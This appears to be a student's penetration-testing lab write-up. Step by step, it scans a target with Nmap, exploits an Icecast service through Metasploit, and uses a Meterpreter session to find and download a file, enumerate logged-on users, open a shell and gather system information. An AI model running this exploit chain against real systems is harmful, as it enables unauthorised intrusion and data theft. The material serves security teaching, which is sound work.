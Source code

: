 ### Submission
You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

#### Report

* [Final Report](/17-Pentration-Testing-2/supporting_docs/Report.pdf)
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: ```nmap -sV 192.168.0.20```

![nmap](/17-Pentration-Testing-2/screenshots/nmap.png)
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: ```searchsploit icecast```

![searchsploit](/17-Pentration-Testing-2/screenshots/searchsploit_ice.png)

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: ```msfconsole```

![msfconsole](/17-Pentration-Testing-2/screenshots/msfconsole.png)
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: ```search icecast```
 
![icecast-search](/17-Pentration-Testing-2/screenshots/icecast-search.png)

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: ```use 0```

![msf-use](/17-Pentration-Testing-2/screenshots/msf_use.png)
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: ```set RHOST 192.168.0.20```

![rhost](/17-Pentration-Testing-2/screenshots/rhost.png)
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: ```run```

![run](/17-Pentration-Testing-2/screenshots/run.png)
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: ```search -f *secretfile.txt```
  
1. You should now have a Meterpreter session open.
 
  - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: ```search -f *recipe.txt```

![search](/17-Pentration-Testing-2/screenshots/search.png) 
 
  - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


> Answer: ```download 'c:\Users\IEUser\Documents\Drinks.recipe.txt'```

![recipe](/17-Pentration-Testing-2/screenshots/download.png)
 

1. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: ```run post/windows/gather/enum_logged_on_users```

![users](/17-Pentration-Testing-2/screenshots/users.png)
 
     
B. Open a Meterpreter shell. 
 
  > Answer:  ```shell```
 
C. Run the command that displays the target's computer system information:

   > Answer: From the shell ```systeminfo```. If from Meterpreter, it would be ```sysinfo```

**Shell**

![systeminfo](/17-Pentration-Testing-2/screenshots/sysinfo.png)

**Meterpreter**

![sysinfo2](/17-Pentration-Testing-2/screenshots/sysinfo2.png)
